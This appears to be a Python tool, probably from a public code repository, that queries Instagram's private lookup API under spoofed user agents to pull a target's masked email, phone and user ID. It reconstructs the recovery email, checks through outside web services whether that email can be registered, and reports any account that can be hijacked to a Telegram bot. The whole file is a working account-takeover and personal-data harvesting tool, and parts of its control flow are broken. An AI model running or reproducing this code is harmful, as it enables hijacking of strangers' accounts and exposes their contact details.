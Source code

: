 import requests,os,random
import webbrowser
webbrowser.open("https://instagram.com/DOOM.OLD?utm_medium=copy_link")
from time import sleep
user_agent = [
    "Instagram 99.4.0 S3od_al3nzi (Dmaral3noOoz)",'Instagram 155.0.0.37.107 Android (28/9; 320dpi; 720x1468; samsung; SM-A102U; a10e; exynos7885; en_US; 239490550)',
    'Instagram 64.0.0.12.96 (iPhone8,1; iOS 12_0_1; pt_BR; pt-BR; scale=2.00; gamut=normal; 750x1334; 124976489)',
    'Instagram 8.4.0 (iPhone7,2; iPhone OS 9_3_2; nb_NO; nb-NO; scale=2.00; 750x1334',
    'Instagram 93.1.0.19.102 Android (21/5.0.2; 240dpi; 540x960; samsung; SM-G530H; fortuna3g; qcom; ar_AE; 154400379)'
]
X=int(input("[?] With telegram ? \n[!] 0 = NO | 1 = YES\n+> "))
if X == 1 :
	try:
		tok=input("[?] TOKEN : ")
		ic=input("[?] ID : ")
		tel=requests.post(f"https://api.telegram.org/bot{tok}/sendMessage?chat_id={ic}&text=HI\nIf you have a problem tell me\nINSTA : @DOOM.OLD| TELE : @ZXXXXZV")
	except:
		print("[!] Try with VPN ")
		input("")
		exit()
else:
	pass
os.system('cls' if os.name == 'nt' else 'clear')#DOOM
print("""\033[0;97mINSTA : DOOM.OLD\n\033[1;34m𝐈𝐟 𝐲𝐨𝐮 𝐡𝐚𝐯𝐞 𝐚 𝐩𝐫𝐨𝐛𝐥𝐞𝐦, 𝐭𝐞𝐥𝐥 𝐦𝐞 𝐨𝐧 𝐈𝐧𝐬𝐭𝐚𝐠𝐫𝐚𝐦""")
def ops ():
	print('\n'+'\033[1;30m='*20+'\n')
	user=input("\033[1;30m[\033[0;37m?\033[1;30m] username or url user : \033[0;37m")
	try:
		user=user.split("/")[3]
		user=user.split("?")[0] or user.split("/")[0]
	except:
		pass
	url = "https://i.instagram.com:443/api/v1/users/lookup/"
	cookies = {"mid": "XOSINgABAAG1IDmaral3noOozrK0rrNSbPuSbzHq"}
	x=random.choice(user_agent)
	headers = {"Connection": "close", "X-IG-Connection-Type": "WIFI", "X-IG-Capabilities": "3R4=",
           "Accept-Language": "ar-AE",
           "Content-Type": "application/x-www-form-urlencoded; charset=UTF-8",
           "User-Agent": x,
           "Accept-Encoding": "gzip, deflate"}
	data = {"signed_body": "35a2d547d3b6ff400f713948cdffe0b789a903f86117eb6e2f3e573079b2f038.{\"q\":\"%s\"}" % user }
	try:
		re = requests.post(url, headers=headers, cookies=cookies, data=data)
		if re.status_code == 200:
			pass
		elif "Please wait a few minutes before you try again." in re.text:
			print("\033[1;31m[!] wait 5m")
			print('\n'+'\033[1;30m='*20+'\n')
			sleep(60*5)
		elif '"message":"يرجى الانتظار لبضع دقائق قبل إعادة المحاولة.","status":"fail"' in re.text :
			print("\033[1;31m[!] wait 5m")
			print('\n'+'\033[1;30m='*20+'\n')
			sleep(60*5)
			ops()
		elif '"message":"No users found","status":"fail"' in re.text :
			print("\033[1;31m[!] No usere found")
			print('\n'+'\033[1;30m='*20+'\n')
			ops()
		elif '{"message":"لم يتم العثور على مستخدمين","status":"fail"}'in re.text:
			print("\033[1;31m[!] No usere found")
			print('\n'+'\033[1;30m='*20+'\n')
			ops()
		elif "spam" in re.text:
			print("\033[1;31m[!] spam - try with VPN")
			ops()
		else:
			print("\033[1;31m[!] error")
			print(re.text)
			print(re.status_code)
			ops()
		info = re.json()
	except:
		print("\033[1;31m[!] there is no Internet")
		print("\033[1;30m[\033[0;37m$\033[1;30m] Email :\033[1;32m "+info['obfuscated_email'])
		m1=(user[0])
		m2=(user[-1])
		s=info["obfuscated_email"].split("@")[0]
		m3=(s[0])
		m4=(s[-1])
		if m1 == m3 and m2 == m4:
			v=0
			if '@yahoo.com' in info["obfuscated_email"]:
				s1="@yahoo.com"
			elif '@gmail.com' in info["obfuscated_email"]:
				s1="@gmail.com"
			elif "@a**.com" in info["obfuscated_email"]:
				s1="@aol.com"
			elif "@hotmail.com" in info["obfuscated_email"]:
				s1="@hotmail.com"
			elif "@o*****.sa" in info["obfuscated_email"]:
				s1="outlook.sa"
			elif "@g*****.com" in info["obfuscated_email"]:
				s1="@googlemail.com"
			elif '@m***.com' in info["obfuscated_email"]:
				s1="@mail.com"
			elif '@f*****.fm' in info["obfuscated_email"]:
				s1="@fastmail.fm"
			else:
				s1="@"+info["obfuscated_email"].split("@")[1]
			if "*" in s1:
				print("\033[1;30m[\033[0;37m$\033[1;30m] Available : \033[1;31mNO")
				ops()
			else:
				eml=user+s1
				p=requests.get("http://tweakpy-filza.ueuo.com/api.php?email="+eml).text
				if "False" in p:
					if v == 1:
							rm=requests.get("https://jftv.pythonanywhere.com/IGMail/"+user+"@googlemail.com").text
					else:
							rm=requests.get("https://jftv.pythonanywhere.com/IGMail/"+eml).text
					if "Linked Or Ban" in rm:
						print("\033[1;30m[\033[0;37m$\033[1;30m] Available : \033[1;32mYES")
						print("\033[1;30m[\033[0;37m$\033[1;30m] Email Available :\033[1;32m "+eml)
					else:
						print("\033[1;30m[\033[0;37m$\033[1;30m] Available : \033[1;31mNO")
						ops()
				else:
					print("\033[1;30m[\033[0;37m$\033[1;30m] Available : \033[1;31mNO")
					ops()
		else:
			print("\033[1;30m[\033[0;37m$\033[1;30m] Available : \033[1;31mNO")
			ops()
	except:
		print("\033[1;30m[\033[0;37m$\033[1;30m] Email :\033[1;31m False")
		ops()
	try:
		po=info['obfuscated_phone']
		print("\033[1;30m[\033[0;37m$\033[1;30m] Phone number :\033[1;32m "+ po)
	except:
		print("\033[1;30m[\033[0;37m$\033[1;30m] Phone number : \033[1;31mFalse")
		po="False"
	try:
		iid=info['user_id']
		print(f"\033[1;30m[\033[0;37m$\033[1;30m] user id :\033[1;32m {iid}")
	except:
		print("\033[1;30m[\033[0;37m$\033[1;30m] user id : \033[1;31mFalse")
	try:
		uid=info['user_id']
		x=requests.get(f"https://o7aa.pythonanywhere.com/?id={uid}").text
		x1=str(x).split('"data": ')[1]
		x2=str(x1).split(', "telegram":')[0]
		print("\033[1;30m[\033[0;37m$\033[1;30m] data :\033[1;32m "+x2)
	except:
		print("\033[1;30m[\033[0;37m$\033[1;30m] data : \033[1;31mFalse ")
	if X == 1:
		tel=requests.post(f"https://api.telegram.org/bot{tok}/sendMessage?chat_id={ic}&text=NEW OLD ACC\nUser : {user}\nEmail : {eml} Available or ban\nPhone : {po}\nData : {x2}\nINSTA : @DOOM.OLD | TELE : @ZXXXXZV")
	else:
		pass
	print('\n'+'\033[1;30m='*20+'\n')
	ops()
ops()
